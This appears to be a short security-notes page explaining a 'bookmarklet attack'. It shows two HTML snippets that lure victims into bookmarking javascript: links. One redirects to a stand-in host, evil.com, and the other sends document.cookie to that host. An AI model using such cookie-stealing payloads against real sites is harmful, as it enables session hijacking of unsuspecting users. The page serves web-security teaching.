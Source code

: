 ```yaml
---
title: Bookmarklet Attack
description: If attackers can inject arbitrary JavaScript code in target website, they can induce victims to malicious executions with bookmarklet.
tags:
    - Web
refs:
    - https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/
date: 2023-06-19
draft: false
---
```


## Exploitation

### Malicious Links

Attackers induce victims to add their malicious link into the bookmark menu as below.

```html
<p>Drag and drop the following link into the bookmark menu to access easily!</p>
<a href="javascript:window.location='https://evil.com/'">Example.com</a>
```

In addition, if the current website does not set **`HttpOnly`** flag on the **`Set-Cookie`** response header, attackers can get the victim's cookie and send it to the malicious website as below.

```html
<p>Drag and drop me the following link into the bookmark menu to access easily!</p>
<a href="javascript:window.location='https://evil.com/?c='+document.cookie">Example.com</a>
```

